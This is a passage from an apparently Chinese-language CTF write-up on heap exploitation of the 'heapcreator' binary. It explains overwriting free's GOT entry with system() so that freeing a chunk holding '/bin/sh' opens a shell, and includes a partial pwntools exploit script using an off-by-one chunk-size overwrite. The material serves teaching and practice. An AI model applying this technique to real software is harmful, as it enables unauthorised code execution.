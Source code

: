 ![](https://cdn.nlark.com/yuque/0/2020/png/574026/1600339846716-3c47608e-e1b2-4b4e-b28d-9627ae7cb725.png)

因为调用free()函数的时候程序也是去free_got指向的位置找函数地址，那么这样一来在程序调用free()函数的时候实际上调用的确实system()函数了.

```python
edit(1, p64(system_addr))
```

还记不记得之前部署在第一个heap中的"/bin/sh"字符串？字符串就是为这个时候准备的，当释放第一个heap的时候：

+ 原执行流程：free(binsh_addr)
+ 替换后执行流程：system("/bin/sh")

所以当我们释放第一个heap的时候就可以拿shell了！！！

# exp
```python
from pwn import *
context(log_level='DEBUG')

p = process('./heapcreator')
heap = ELF('./heapcreator')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')


def create(size, content):
    p.recvuntil(":")
    p.sendline("1")
    p.recvuntil(":")
    p.sendline(str(size))
    p.recvuntil(":")
    p.sendline(content)


def edit(idx, content):
    p.recvuntil(":")
    p.sendline("2")
    p.recvuntil(":")
    p.sendline(str(idx))
    p.recvuntil(":")
    p.sendline(content)


def show(idx):
    p.recvuntil(":")
    p.sendline("3")
    p.recvuntil(":")
    p.sendline(str(idx))


def delete(idx):
    p.recvuntil(":")
    p.sendline("4")
    p.recvuntil(":")
    p.sendline(str(idx))
    

create(0x18, "hollk")  
create(0x10, "hollk")  

edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")

delete(1)

create(0x30, p64(0) * 3 + p64(0x21) + p64(0x30) + p64(heap.got['free']))  
```